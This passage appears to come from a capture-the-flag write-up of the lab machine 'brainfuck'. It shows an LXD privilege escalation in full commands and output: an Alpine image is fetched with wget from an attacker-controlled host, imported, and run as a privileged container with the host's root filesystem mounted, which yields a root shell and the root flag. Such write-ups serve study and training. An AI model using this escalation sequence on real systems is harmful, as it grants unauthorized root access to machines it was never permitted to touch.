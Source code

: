 ```console
(13/19) Installing busybox-suid (1.31.1-r19)
(14/19) Installing busybox-initscripts (3.2-r2)
Executing busybox-initscripts-3.2-r2.post-install
(15/19) Installing scanelf (1.2.6-r0)
(16/19) Installing musl-utils (1.1.24-r9)
(17/19) Installing libc-utils (0.7.2-r3)
(18/19) Installing alpine-keys (2.2-r0)
(19/19) Installing alpine-base (3.12.0-r0)
Executing busybox-1.31.1-r19.trigger
OK: 8 MiB in 19 packages
```

now wget the `.tar.gz` file to the machine and mount the entire filesystem in the container
```console
orestis@brainfuck:~$ wget 10.10.14.2/alpine-v3.12-x86_64-20200705_1802.tar.gz
--2020-07-07 06:00:05--  http://10.10.14.2/alpine-v3.12-x86_64-20200705_1802.tar.gz
Connecting to 10.10.14.2:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3211449 (3.1M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20200705_1802.tar.gz’

alpine-v3.12-x86_64-20200705_1802.tar.gz             100%[=====================================================================================================================>]   3.06M   780KB/s    in 4.0s    

2020-07-07 06:00:09 (780 KB/s) - ‘alpine-v3.12-x86_64-20200705_1802.tar.gz’ saved [3211449/3211449]

orestis@brainfuck:~$ lxc image import ./alpine-v3.12-x86_64-20200705_1802.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: 813f5dc9994d4a521997d8acea9a9cf9d11cd4d165ccfecd6a3e949324f9eb9d
orestis@brainfuck:~$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myimage | 813f5dc9994d | no     | alpine v3.12 (20200705_18:02) | x86_64 | 3.06MB | Jul 7, 2020 at 3:00am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
orestis@brainfuck:~$ lxc init myimage ignite -c security.privileged=true
Creating ignite
orestis@brainfuck:~$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
orestis@brainfuck:~$ lxc start ignite
orestis@brainfuck:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt
6efc1a5dbb8904751ce6566a305bb8ef
```
